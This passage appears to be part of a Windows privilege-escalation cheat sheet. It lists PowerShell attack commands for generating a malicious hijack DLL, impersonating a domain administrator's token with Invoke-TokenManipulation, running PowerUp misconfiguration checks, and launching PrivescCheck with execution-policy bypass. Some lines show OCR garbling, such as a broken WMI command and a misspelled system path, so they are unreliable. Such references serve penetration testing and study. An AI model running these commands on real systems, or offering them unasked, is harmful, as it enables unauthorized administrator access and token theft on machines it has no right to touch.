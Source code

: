 Then we generate and store the malicious DLL

```
Write-HijackDll
```

**Token Impersonation**

**List All Tokens**

```
Invoke-TokenManipulation -ShowAll
```

**List all unique and usable tokens**

```
Invoke-TokenManipulation -Enumerate
```

**Start new process with token of the administrator**

```
Invoke-TokenManipulation -ImpersonateUser -Username "domain\administrator"
```

**Start new process with token of another process**

```
Invoke-TokenManipulation -CreateProcess "C:\Windown\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500
```

#### PowerUp

**Check for misconfigurations**

```
Invoke-AllChecks
```

**Unquoted Service Path**

```
[1]
Get-ServiceUnquoted -Verbose
[2]
Get-WmiObject -Class win32_service | f` *
```

#### PrivEscCheck

The below is a Powershell script that checks for privilege escalation vectors.

```
https://github.com/itm4n/PrivescCheck
```

Then run the below for basic usage

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```
